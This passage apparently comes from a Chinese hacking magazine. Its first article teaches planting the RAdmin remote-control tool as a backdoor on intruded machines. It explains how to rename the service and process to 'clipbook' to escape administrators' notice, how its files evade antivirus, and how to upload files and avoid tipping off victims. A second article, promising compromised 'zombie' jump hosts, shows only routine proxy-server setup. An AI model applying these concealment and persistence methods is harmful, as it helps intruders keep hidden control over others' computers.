ipbook”的属性，如图 16 所示。



怎么样，造假技术如何？虽然真正的“clipbook”服务调用的不是这个程序，但用 clipbook /service 通常也能蒙混过关，clipbook 服务调用 clipbook 文件嘛！这也是我为什么将 RAdmin 服务端改名成 clipbook 的原因。另外，替换后的服务名称处依然显示 r_server，这一点，有时会引起其他人的注意，关于这一点用前面提到的数据替换法就没有这个问题。还有，在进程列表处，通过上面的修改，会多出一个叫“clipbook”的进程，而不是 RAdmin 服务端没有更名前的“r_server”，它比后者更不会引起管理员的注意。用 RAdmin 作后门还有一个比较大的隐患在于它会打开特定端口，这跟很多后门程序是一样的。不过用 RAdmin 作后门最大的好处在于它永远不会被查杀（该不会有哪个杀毒工具跟远程控制软件过不去吧）。

通过上面的设置、修改，能够很快发现该后门的管理员已不算太多了。虽然它还存在这样那样的缺点，但不管如何，这个也是继承“没有端口、没有进程、永不被查杀”的程序之后，最能蒙混过关的后门了。如果能够用“没有端口、没有进程、写后不公开”的后门程序再结合上面提到的隐藏方法，那一定是一个比较完美的后门。

说了这么多，那么到底 RAdmin 有什么功能值得我们如此大动干戈？现在让我们来看看 RAdmin 给我们带来了什么：

- 1. 安全：RAdmin 是一个完完全全的远程管理软件，不会受到杀毒工具的查杀。RAdmin 不对

系统本身带来任何危害，不能拿它和木马相提并论，所以不会被那些杀毒工具所查杀。再就是 RAdmin 提供密码保护，不会像一些木马程序具有通用密码，所以只有知道密码的用户才能够连接成功。



RAdmin 一旦连接，会出现如图 17 的对话框。

由于 RAdmin 要求密码至少 8 位，所以从某种程度上讲，它应该是安全的（设置密码时采用弱口令除外）。

### 2. 功能强大
RAdmin 提供的功能很强大，这也是为什么有那么多用户用它的原因。提供的功能如图 18 所示。



“full control”前面已经说了，连接成功后会与目标机器的当前用户产生一个交互式登录的会话，连接后如图 19 所示。



这个功能对很多管理员来说是至关重要的，管理员可以通过它对远程的机器进行管理、维护。使用时，感觉上和在本机操作没有太大的区别。

“view only”记得很多木马都有提供查看当前目标机器屏幕的功能，RAdmin 也提供这个功能。

“telnet”功能，喜欢 Hacker 技术的朋友对这个功能应该很熟悉了，我就不说了。连接成功后会产生如图 20 所示的对话框。



“file transfer”文件传输功能，呵呵，以后进入一台机器后，只要在对方的机器上安装 radmin 服务端后，上传文件就再也不用老是打那长长的字符了，用拖拽就行，这个和 Windows 的资源管理器有点类似，只不过这个是上下窗口而已，如图 21 所示。



“shutdown”关机功能，RAdmin 提供的功能倒是挺多的，连关机功能也有好几个选项，如图 22 所示。



不管如何，我还是建议你不要轻易关掉或重启对方的机器，这很容易引起对方的注意。

以上在我的机器（Windows 2000 Advanced Server+SP3、Windows 2000 Professional+SP3）测试通过，其他的等待你去测试。

虽然我不是很喜欢入侵，而且我知道网上这类教程很多，但我还是希望本文能够对某些人有所帮助。如果你对本文仍存在疑问或技术问题，请与我联系，我的 E-mail 是：netff@21cn.com

## 代理服务器总汇与肉鸡制作实例

文/含蓄

代理服务器其实就是个人网络和因特网服务商之间的中间代理机构，它负责转发合法的网络信息，并对转发进行控制和登记。在使用网络浏览器浏览网络信息的时候，如果使用代理服务器，浏览器就不会直接和目的网站打交道，而一切全权交给代理服务器打理。代理服务器将浏览器的请求转交给目的网站，同时也将目的网站的返回信息反馈到用户浏览器。代理服务器同时可以使得一个局部计算机网络同时共享一个（或多个）连接。在各款代理服务器软件中，最典型当属 WinGate。当然，由于浏览器使用代理服务器之后，相对于目标网站来说，目标网站面对的只是代理服务器，它本身根本就不会察觉到提交请求的浏览器的存在。这样，在各种黑客攻击中，利用代理服务器就可以隐藏自己的真实 IP 地址，黑客们通常也利用这种方法来隐藏自己的真实 IP。本文首先介绍了几款比较经典的代理服务器软件的使用方法，并在最后以实例介绍了怎样制作自己的肉鸡跳板。

### 一、SyGate代理服务器

如果将 SyGate 安装在局域网中某台可以直接连入互联网的计算机上，只需花几分钟就可以架设一台代理服务器使得整个局域网都可以轻松上网。SyGate 并不像一般基于代理服务的产品，它是基于 NAT（网络地址转换）的，客户端的电子邮件和浏览器并不需要特别设置。SyGate 会自动分配所需参数给每一部电脑，包括 TCP/IP 地址、子网掩码、网关和 DNS 服务器。这款软件的方便之处在于，我们只需要在服务器上安装一次，便可以让局域网内的所有电脑上网。如果你的局域网服务器使用 SyGate 4.0 和客户机连接，那么客户机不需要安装任何软件或硬件就能够上网，不需要作任何特殊设置就可以使用 QQ，如果你还没有用过 SyGate，并且现在需要架设一台主机使其他客户机能够通过该台主机上网，那么本软件可以供你参考。

在安装这款软件之前，你首先要在服务器上安装好上网设备，比如 Modem 或 ISDN。本文以 Modem 为例，请你先设置好拨号网络、连接方式，测试该主机是否可以正常上网，测试成功之后，便可以安装 SyGate 了。在这里，你可能需要购买正版多用户 SyGate 4.0，如果你只是想测试或者临时使用一下，那么可以使用它的试用版，不过其只支持两个用户，并且只能使用一个月哦（呵呵，没有花钱，就知道哦）。安装完 SyGate 后它会提示你注册，你自己填写注册码，然后重新启动。

在安装过程中，如果系统检测发现“系统设置”、“网卡”、“TCP/IP 协议”任何一个存在问题，都会提示纠正，如果不提示说明没有问题。Windows 98 以上的版本自带 TCP/IP 协议，所以你的服务器和客户机最好都是 Windows 98 以上版本。首先在主机上安装 SyGate，如果你没有把握，那么尽可能使用 SyGate 替你做的设置，在安装过程中，安装程序会提示你作为 Server 还是作为 Client 安装，这里当然选择 Server 模式。

在安装过程中，SyGate Server 自动完成 TCP/IP 的设置，一般来说，不需要你自己改变你的系统设置。所有经过 SyGate 安装过后的工作站都会有以下的默认 TCP/IP 参数：

- 编者语：前面我们提到过该客户端根本不需要安装任何软件，这里怎么会有 Client 安装呢？先不要着急，看到后面你自然就会明白了。

| 设置 | SERVER 工作站 | CLIENT 工作站 |
| :--- | :--- | :--- |
| IP 地址 | 192.168.0.x | 自动 |
| 子网掩码 | 255.255.255.0 | 自动 |
| DNS | 不要更改 | |
| 网关 | 无 | 自动（和本地 SyGate Server 相似的 IP 地址，默认是 192.168.0.1） |

如果要限制访问某些特定的站点或者限定某些用户访问特定的站点，我们可以使用 SyGate 的黑名单，但不要轻易用白名单，因为这样就无法使用 QQ 了。SyGate 的主界面如图 1 所示。



SyGate 的设置相对其他代理服务器软件来说比较简单，点击“Configuration”按钮会弹出设置对话框，对于 SyGate 的各种参数，一般用默认值。如果为了安全和加强访问控制，我们还可以设置访问规则。点击“Access Rules”将弹出“Access Rules Editor”对话框，点击“Add”按钮，选择“Add a new rule”将可以用来添加一条新的规则，如图 2 所示。



如果你在客户机上安装了 SyGate 的客户端软件，那么 IP 地址、DNS 等都是自动设置的，如果你不安装 SyGate 客户端软件，那么你可能要手工设置一下这些参数。如图 3 所示，这是客户机上 TCP/IP 的设置，一般用“自动获取 IP 地址”。



下面是局域网其他客户机上的 DNS 配置，如果客户机不设置 DNS 服务器则无法解析因特网域名。这里“DNS 服务器地址”使用服务器的 IP 地址，如图 4 所示。

现在服务器上肯定已经拥有两个 TCP/IP 协议设置，一个是网卡的，一个是 TCP/IP——拨号适配器的。安装 SyGate 以后，我们需要设置后者。不过，这些协议的参数大部分都会 SyGate 自动设置。这时服务器拨号适配器的 DNS 设置、服务器的 IP 地址和子网掩码，都是 SyGate 自动分配的。服务器和客户机的网关都不用设置，如图 5 所示。

服务器在连接到 Internet 以后，启动 SyGate 就可以提供代理服务了。

### 二、WinRoute代理服务器

WinRoute 可以作为本地局域网的一个简单的域名服务器，其包含了一个 DNS 缓存，还可以转发 DNS 域名查询信息。它还可以通过端口映射实现反向代理功能，让外部访问受 NAT 保护的内部网络所提供的一些服务，并且它还具有路由器的寻径功能，在支持局域网里的多台计算机使用同一个 IP 地址访问因特网的同时，还能自动保护内部网络不受到外部的攻击。该软件支持基于 IP 地址的过滤和限制，具有“限制可访问 URL”的安全功能。利用该软件提供的 DHCP 服务器功能，其可以自动配置局域网上的计算机的网络相关参数。为了确保安全，用户可以通过该软件定义一个过滤规则，对经过代理服务器的数据信息进行过滤。它的最主要功能是具有代理服务功能，其对局域网中的信息提供了集中缓存。它还可以作为电子邮件服务器来使用，我们可以利用它来接收和发送电子邮件。

> 编者语：限制可访问 URL 和数据过滤可能是很多单位都希望用到的功能，对于这些单位来说，该款软件应该是个不错的选择。

如果用 WinRoute 作为局域网的代理服务器软件，我们不需要对服务器或客户机进行特殊的设置就可以使用 QQ 等软件。也就是说，只要在服务器上安装了 WinRoute，客户机的 QQ 系统参数简单设置一下马上就可以使用，不需要特殊设置。



虽然 WinRoute 的设置和使用非常容易，但考虑到有些用户的需求，我们这里仍然列出了 WinRoute 的相关使用方法。下面以 WinRoute Pro 4.1 为例，这里我们假定用户已经正确设置了服务器和客户机的基本网络参数，如 IP 地址、网关、DNS 等。安装完 WinRoute 后启动 WinRoute Monitor 和 WinRoute Administrator，如图 6 所示。

当我们启动 WinRoute Administration 时，该软件会提示输入账号和密码，这里我们可以用默认的账号，密码为空，如图 7 所示。

